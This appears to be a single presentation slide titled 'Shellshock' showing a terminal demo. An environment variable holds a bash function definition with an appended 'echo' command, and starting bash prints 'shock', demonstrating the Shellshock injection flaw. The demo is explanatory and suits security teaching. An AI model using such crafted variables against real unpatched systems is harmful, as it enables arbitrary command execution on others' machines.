

Shellshock
> export foo=’() { :; }; echo shock’
> bash
shock